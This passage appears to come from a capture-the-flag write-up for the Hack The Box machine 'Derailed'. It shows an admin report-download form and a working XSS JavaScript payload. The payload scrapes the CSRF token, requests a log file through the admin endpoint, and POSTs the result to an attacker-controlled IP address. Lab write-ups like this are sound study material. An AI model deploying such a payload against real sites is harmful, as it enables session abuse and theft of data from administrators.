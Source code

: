 The "Download" link is part of an HTML form, which is the interesting part.

```html
<form method="post" action="/administration/reports">
    <input
      type="hidden"
      name="authenticity_token"
      id="authenticity_token"
      value="GNWWxMDBw-Z50nWmTx6aqizDPKuLkeA987wFxx3DZWscmT4E5x30igEylZftYk580mfckm3xnnHtN1F79dN1bQ"
      autocomplete="off"
    />

    <input
      type="text"
      class="form-control"
      name="report_log"
      value="report_13_09_2023.log"
      hidden
    />

    <label class="pt-4"> 13.09.2023</label>

    <button name="button" type="submit">
      <i class="fas fa-download me-2"></i>
      Download
    </button>
  </form>
```

I create a payload to fetch the log file via XSS, as intended. This program will access the `/administration` page, retrieve the token, and then make a POST request to `/administration/reports` to fetch the log file. The response will be sent to me via a POST.

```javascript
fetch("http://derailed.htb:3000/administration")
.then((resp) => resp.text())
.then((html) => {
    let page = new DOMParser().parseFromString(html, "text/html");
    let token = page.getElementById("authenticity_token").value;
    console.log(token);
    fetch("http://derailed.htb:3000/administration/reports", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    body: "authenticity_token=" + token + "&report_log=report_13_09_2023.log",
    })
    .then((resp) => resp.text())
    .then((html) => {
        console.log(html);
        fetch("http://10.10.14.6:9001/", {
        method: "POST",
        body: html,
        });
    });
});

```
